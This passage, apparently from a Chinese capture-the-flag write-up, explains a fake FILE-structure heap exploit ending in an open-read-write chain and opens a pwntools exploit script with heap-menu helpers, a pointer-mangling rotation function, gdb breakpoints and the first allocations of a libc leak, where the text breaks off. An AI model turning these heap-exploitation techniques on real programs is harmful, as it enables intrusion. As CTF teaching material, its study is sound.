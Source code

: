 ![image.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/20251006212914484.png)

然后,需要注意的是`rcx`,而且它会`push rcx`,并且在后续会`ret`.所以我们要让`rcx`的内容是`ret`指令,这个很简单,只要在`ORW`的上方布置一个`ret gadget`的地址就行了.

![image.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/20251006213147692.png)


然后就是正常的`orw`的执行了

伪造`fake io`的过程,需要配合动调实时查看,一开始一次完成构造不太现实.中间对于偏移的计算也会出现一些问题.

当然熟练之后,可以把这个写成模板,以后遇到类似的利用就可以直接套用模板来写.
## exp
```python
from esy import *
context.log_level="debug"
context.terminal=['tmux','splitw','-h','-l','66%']
io,elf=loadfile("./pwn","",0)
libc=ELF("./libc.so.6")
opcode=b""
def add(idx,size):
    global opcode
    opcode+=p8(1)+p8(idx)+p16(size)

def delete(idx):
    global opcode
    opcode+=p8(2)+p8(idx)

def show(idx):
    global opcode
    opcode+=p8(3)+p8(idx)

def edit(idx,content):
    global opcode
    opcode+=p8(4)+p8(idx)+p16(len(content))+content
    
def run():
    global opcode
    opcode += p8(5)
    io.sendafter("Pls input the opcode",opcode)
    opcode=b""

def rotate_left_64(x, n):
    # 确保移动的位数在0-63之间
    n = n % 64
    # 先左移n位
    left_shift = (x << n) & 0xffffffffffffffff
    # 然后右移64-n位，将左移时超出的位移动回来
    right_shift = (x >> (64 - n)) & 0xffffffffffffffff
    # 合并两部分
    return left_shift | right_shift

script='''
b *$rebase(0x18B6)
b *$rebase(0x12D7)
b __vfprintf_internal
'''
gdb.attach(io,script)

#---------------------------------- leak libc
add(0,0x410)
add(1,0x410)
add(2,0x420)
```